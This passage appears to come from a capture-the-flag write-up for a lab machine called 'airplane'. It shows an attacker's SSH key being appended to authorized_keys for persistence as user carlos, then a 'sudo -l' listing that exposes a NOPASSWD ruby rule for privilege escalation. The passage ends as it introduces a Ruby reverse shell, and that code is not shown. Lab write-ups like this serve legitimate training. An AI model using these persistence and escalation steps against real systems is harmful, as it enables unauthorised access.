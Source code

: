 ```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg hax@HaxonKali' >> authorized_keys
```

We can't because we are `carlos` as `hudson` we need to update permissions :

```bash
chmod 644 authorized_keys
```

## SSH Carlos

Now we can really start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) we check :

```bash
carlos@airplane:~$ sudo -l
Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb

```

## GTFObins

We can search for ruby sudo :

![Pasted image 20250722165117.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722165117.png)

But won't work cause we're not in root directory, we can escape this somehow .

## Reverse Shell 

We can download a simple Ruby [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :
